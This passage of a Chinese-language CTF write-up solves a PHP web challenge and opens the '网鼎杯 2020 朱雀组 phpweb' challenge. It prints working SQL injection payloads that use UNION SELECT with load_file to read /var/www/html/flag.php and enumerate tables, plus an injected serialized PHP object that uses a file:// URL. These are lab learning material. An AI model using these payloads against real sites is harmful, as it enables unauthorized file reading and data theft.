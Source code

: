 load_file(file_name):file_name是一个完整的路径，于是我们直接用var/www/html/flag.php路径去访问一下这个文件
```bash
?no=-1 union/**/select 1,load_file("/var/www/html/flag.php"),3,4--+
```
这样就得到flag了
但我们还是继续用sql方法
```bash
-1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'--+
```
![alt text](image-33.png)
```bash
-1 union/**/select 1,group_concat(data),3,4 from users--+
```
O:8:"UserInfo":3:{s:4:"name";s:4:"yuji";s:3:"age";i:12;s:4:"blog";s:7:"12.blog";} 
这个是序列化后的UserInfo，这就与我们下载的文件有关了，因为之前的php代码过滤的并不严谨，只要有.就行，就可以构造
```bash
?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:19;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

## [网鼎杯 2020 朱雀组]phpweb
页面的话翻译过来就是
警告：依赖系统的时区设置是不安全的。您​​必须​​使用 date.timezone配置项或 date_default_timezone_set()函数。如果您使用了上述方法中的任何一种，但仍然收到此警告，那么您很可能拼写错了时区标识符。我们目前选择了 'UTC' 时区，但请您设置 date.timezone来指定您的时区
。不是很理解，用bp抓包看看
![alt text](image-34.png)
发现有func和p参数
我们尝试猜测这两个参数的关系，可以用最简单的 php函数 MD5 来进行检测